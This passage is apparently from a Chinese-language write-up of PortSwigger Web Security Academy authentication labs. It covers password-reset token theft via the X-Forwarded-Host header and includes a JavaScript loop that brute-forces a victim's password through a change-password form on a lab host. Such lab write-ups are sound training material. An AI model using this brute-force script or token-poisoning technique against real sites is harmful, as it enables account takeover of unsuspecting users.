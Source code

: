 之後看 log

```
/forgot-password?temp-forgot-password-token=0n2m78it8uxcstar2p6y9tm9kzbee7z2
```

用受害者的 token 就可以成功修改密碼

## X-Forwarded-Host

補充一下 `X-Forwarded-Host`，是用來存放最終的 `Host`，因為中間層會去修改 `Host` 的值

## Lab: Password brute-force via password change

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/other-mechanisms#changing-user-passwords                      |
| Lab       | https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change |

登入自己帳號的情況，枚舉受害者的密碼，若 `current-password` 正確且 `new-password` 不匹配，就會回傳 `New passwords do not match`

```js
function changePassword(currentPassword) {
  return fetch(
    "https://0ad400fa03d6c6df81df8e7700b500ac.web-security-academy.net/my-account/change-password",
    {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `username=carlos&current-password=${currentPassword}&new-password-1=123&new-password-2=456`,
      method: "POST",
      mode: "cors",
      credentials: "include",
    },
  );
}

async function main() {
  for (const password of passwords) {
    const response = await changePassword(password);
    const text = await response.text();
    if (text.includes("New passwords do not match"))
      return console.log(password);
  }
}
```

成功得出 `carlos:12345`，之後成功修改帳密～

## 小結

雖然這系列有介紹蠻多方法，但感覺很多時候都還是要 brute-force 帳號 or 密碼，除非剛好是弱帳密組合，不然實務上真的很難猜到

## 參考資料

- https://portswigger.net/web-security/authentication
